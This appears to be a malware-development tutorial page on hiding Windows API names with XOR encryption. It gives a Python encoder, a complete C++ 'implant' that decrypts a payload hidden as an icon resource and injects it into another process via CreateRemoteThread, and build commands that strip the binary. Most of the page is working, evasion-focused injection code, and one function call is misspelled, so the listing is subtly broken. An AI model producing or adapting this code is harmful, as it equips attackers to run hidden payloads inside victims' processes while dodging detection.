

<Callout type="info" title="Concept Overview">
This technique involves hiding suspicious API function names (like `VirtualAllocEx`, `CreateRemoteThread`) by encrypting them with a simple XOR cipher. At runtime, the malware decrypts these strings and uses `GetProcAddress` to resolve the API addresses, avoiding static analysis detection.
</Callout>



---

## XOR API Python Script

<Callout type="info" title="Encrypting API Strings">
Use this Python script to XOR encrypt API function names before compiling the C++ payload.
```python
data = b"VirtualAlloc"
key = b"mysecretkeee"
enc = bytes(data[i] ^ key[i % len(key)] for i in range(len(data)))
enc += b"\x00"

print(", ".join(f"0x{x:02x}" for x in enc))
```
</Callout>

---

## C++ Implementation (0x00 DAE & XOR)

<Callout type="danger" title="String Shellcode & API Resolution">
This C++ code demonstrates how to decrypt API strings at runtime, resolve their addresses, and use them to inject an encrypted payload (loaded from a resource) into a remote process.
</Callout>

<AccordionGroup>
  <Accordion title="implant.cpp (Main Code)">
    ```cpp
    #include <windows.h>
    #include <tlhelp32.h>
    #include <iostream>
    #include "resources.h"


    typedef WINBOOL(WINAPI *pWriteProcessMemory) (HANDLE hProcess, LPVOID lpBaseAddress, LPCVOID lpBuffer, SIZE_T nSize, SIZE_T *lpNumberOfBytesWritten);
    typedef HANDLE (WINAPI *pOpenProcess) (DWORD dwDesiredAccess, WINBOOL bInheritHandle, DWORD dwProcessId);
    typedef LPVOID (WINAPI *pVirtualAllocEx) (HANDLE hProcess, LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);
    typedef LPVOID (WINAPI *pVirtualAlloc) (LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);
    typedef HANDLE (WINAPI *pCreateRemoteThread) (HANDLE hProcess, LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId);
    typedef WINBOOL(WINAPI *pVirtualProtectEx) (HANDLE hProcess, LPVOID lpAddress, SIZE_T dwSize, DWORD flNewProtect, PDWORD lpflOldProtect);


    const BYTE key[] = "mysecretkeee";
    VOID Decrypter(BYTE *data, size_t data_len,const BYTE *key, size_t key_len) {
      if (!data || !key || key_len == 0) return;
      for (size_t i{}; i < data_len; i++) {
          data[i] ^= key[i%key_len];
      }
    }

    DWORD EnumProc(const std::wstring &programname){
       HANDLE Hsnp{CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0)};
       if(Hsnp == INVALID_HANDLE_VALUE){
           std::wcerr << "[-] Faild To Getsnapshot ERROR: " << GetLastError();
           return 0;
       }
       PROCESSENTRY32W lppe{};
       lppe.dwSize = sizeof(PROCESSENTRY32W);
       Process32FirstW(Hsnp,&lppe);

       do{
           if(lstrcmpW(lppe.szExeFile,programname.c_str()) == 0){
               CloseHandle(Hsnp);
               return lppe.th32ProcessID;
           }
       }
       while(Process32NextW(Hsnp,&lppe));

       CloseHandle(Hsnp);
       return 0;
    }

    int main() {

       std::wstring procname;
       std::wcout << "[+] Enter Process Name: ";
       std::wcin >> procname;
       procname += L".exe";
       if(procname.empty()){
           std::wcout << "[-] Please Enter Process Name Without .exe extention\n";
           return 1;
       }
       DWORD PID{EnumProc(procname)};
       if(!PID){
           std::wcout << "[-] ProcID Not Found\n";
           return 1;
       }

       HRSRC hsrc{FindResource(nullptr,MAKEINTRESOURCE(FAVICON_ICO),RT_RCDATA)};
       if(!hsrc){
           std::wcerr << "[-] Fail to Find Resource ERRORCODE : " << GetLastError();
           return 1;
       }
       HGLOBAL Hglobal {LoadResource(nullptr,hsrc)};

       if(!Hglobal){
           std::wcerr << "[-] LoadResource failed ERRORCODE : " << GetLastError();
           return 1;
       }
       LPVOID payload{LockResource(Hglobal)};
       if(!payload){
           std::wcerr << "[-] LockResource failed ERRORCODE : " << GetLastError();
            return 1;
       }

       DWORD payloadsz{SizeofResource(nullptr,hsrc)};
       if(!payloadsz){
           std::wcerr << "[-] sizeofresource failed ERRORCODE : " << GetLastError();
           return 1;
       }
       size_t keysz{(sizeof key) -1};

    BYTE spVirtualAlloc[]{0x3b, 0x10, 0x01, 0x11, 0x16, 0x13, 0x09, 0x35, 0x07, 0x09, 0x0a, 0x06,0x00};// virtualAlloc
    BYTE spOpenProcess[] = { 0x22, 0x09, 0x16, 0x0b, 0x33, 0x00, 0x0a, 0x17, 0x0e, 0x16, 0x16,0x00}; // OpenProcess + NULL
    BYTE spVirtualAllocEx[] = { 0x3b, 0x10, 0x01, 0x11, 0x16, 0x13, 0x09, 0x35, 0x07, 0x09, 0x0a, 0x06, 0x28, 0x01,0x00}; // VirtualAllocEx
    BYTE spWriteProcessMemory[] = { 0x3a, 0x0b, 0x1a, 0x11, 0x06, 0x22, 0x17, 0x1b, 0x08, 0x00, 0x16, 0x16, 0x20, 0x1c, 0x1e, 0x0a, 0x11, 0x0b,0x00}; // WriteProcessMemory
    BYTE spVirtualProtectEx[]  = { 0x3b, 0x10, 0x01, 0x11, 0x16, 0x13, 0x09, 0x24, 0x19, 0x0a, 0x11, 0x00, 0x0e, 0x0d, 0x36, 0x1d,0x00}; // VirtualProtectEx
    BYTE spCreateRemoteThread[] = { 0x2e, 0x0b, 0x16, 0x04, 0x17, 0x17, 0x37, 0x11, 0x06, 0x0a, 0x11, 0x00, 0x39, 0x11, 0x01, 0x00, 0x02, 0x16,0x00 }; // CreateRemoteThread

       Decripter(spOpenProcess,sizeof(spOpenProcess)-1,key,keysz);
       pOpenProcess XzOpenProcess = reinterpret_cast<pOpenProcess>(GetProcAddress(GetModuleHandleW(L"kernel32.dll"),(char*)spOpenProcess));
       HANDLE hproc{XzOpenProcess(
       PROCESS_VM_READ
       |PROCESS_VM_WRITE
       |PROCESS_CREATE_THREAD
       |PROCESS_VM_OPERATION
       |PROCESS_QUERY_INFORMATION,0,PID)};
       if(!hproc){
           std::wcout << "[-] Faild To Get Handle Of Target Process\n";
           return 1;
       }

       Decrypter(spVirtualAllocEx,sizeof(spVirtualAllocEx)-1,key,keysz);
       pVirtualAllocEx XzVirtualAllocEx = reinterpret_cast<pVirtualAllocEx>(GetProcAddress(GetModuleHandleW(L"kernel32.dll"),(char*)spVirtualAllocEx));
       LPVOID Execution{XzVirtualAllocEx(hproc,nullptr,payloadsz,MEM_COMMIT | MEM_RESERVE,PAGE_READWRITE)};
       if(!Execution){
           std::wcout << "[-] Fail To Allocate Mem ReadWrite\n";
           CloseHandle(hproc);
           return 1;
       }

        Decrypter(spVirtualAlloc,sizeof(spVirtualAlloc)-1,key,keysz);
        pVirtualAlloc XzVirtualAlloc = reinterpret_cast<pVirtualAlloc>(GetProcAddress(GetModuleHandleW(L"kernel32.dll"),(char*)spVirtualAlloc));
        PVOID ExecutionLocal{XzVirtualAlloc(nullptr,payloadsz,MEM_COMMIT|MEM_RESERVE,PAGE_READWRITE)};
        RtlCopyMemory(ExecutionLocal,payload,payloadsz);
        Decrypter(reinterpret_cast<BYTE*>(ExecutionLocal),payloadsz,key,keysz);

        Decrypter(spWriteProcessMemory,sizeof(spWriteProcessMemory)-1,key,keysz);
        pWriteProcessMemory XzWriteProcessMemory = reinterpret_cast<pWriteProcessMemory>(GetProcAddress(GetModuleHandleW(L"kernel32.dll"),(char*)spWriteProcessMemory));
       if(!XzWriteProcessMemory(hproc,Execution,ExecutionLocal,payloadsz,nullptr)){
           std::wcout << "[-] Fail To Write target Proc Memory\n";
           CloseHandle(hproc);
           VirtualFreeEx(hproc,Execution,payloadsz,MEM_RELEASE);
       }

        DWORD old;
        Decrypter(spVirtualProtectEx,sizeof(spVirtualProtectEx)-1,key,keysz);
        pVirtualProtectEx XzVirtualProtectEx = reinterpret_cast<pVirtualProtectEx>(GetProcAddress(GetModuleHandleW(L"kernel32.dll"),(char*)spVirtualProtectEx));
       if(!XzVirtualProtectEx(hproc,Execution,payloadsz,PAGE_EXECUTE_READ,&old)){
           std::wcout << "[-] Fail To Write target Proc Memory\n";
           CloseHandle(hproc);
           VirtualFreeEx(hproc,Execution,payloadsz,MEM_RELEASE);
       }
       
        Decrypter(spCreateRemoteThread,sizeof(spCreateRemoteThread)-1,key,keysz);
        pCreateRemoteThread XzCreateRemoteThread = reinterpret_cast<pCreateRemoteThread>(GetProcAddress(GetModuleHandleW(L"kernel32.dll"),(char*)spCreateRemoteThread));
       HANDLE t1{XzCreateRemoteThread(hproc,nullptr,0,reinterpret_cast<LPTHREAD_START_ROUTINE>(Execution),nullptr,0,0)};
       if(!t1){
           std::wcout << "Remtoe Thread Faild To Execution\n";
           CloseHandle(hproc);
           VirtualFreeEx(hproc,Execution,payloadsz,MEM_RELEASE);
           return 1;
       };

       WaitForSingleObject(t1,INFINITE);

          CloseHandle(t1);
          CloseHandle(hproc);
          
       return 0;
    }
    ```
  </Accordion>
  <Accordion title="resources.rc">
    ```c++
    #include "resources.h"
    
    FAVICON_ICO RCDATA calc.ico
    ```
  </Accordion>
  <Accordion title="resources.h">
    ```c++
    #define FAVICON_ICO 100
    ```
  </Accordion>
</AccordionGroup>

---

## Compile Time

<Tabs>
  <Tab title="Windows Build (cl.exe)">
    ```batch
    @ECHO OFF
    rc resources.rc
    cvtres /MACHINE:x64 /OUT:resources.o resources.res
    cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 resources.o
    ```
  </Tab>
  <Tab title="MinGW Compiler Without Stripped (For Debug)">
    ```bash
    x86_64-w64-mingw32-windres resources.rc resources.o
    ```
    ```bash
    x86_64-w64-mingw32-g++ implant.cpp resources.o -O0 -g -fno-stack-protector -Wl,-subsystem,console -o implant_debug.exe
    ```
  </Tab>
  <Tab title="MinGW Compiler With Stripped">
    ```bash
    x86_64-w64-mingw32-windres resources.rc resources.o
    ```
    ```bash
    x86_64-w64-mingw32-g++ implant.cpp resources.o -O2 -static -s -fno-stack-protector -DNDEBUG -Wl,-subsystem,console -o implant.exe
    ```
  </Tab>
</Tabs>
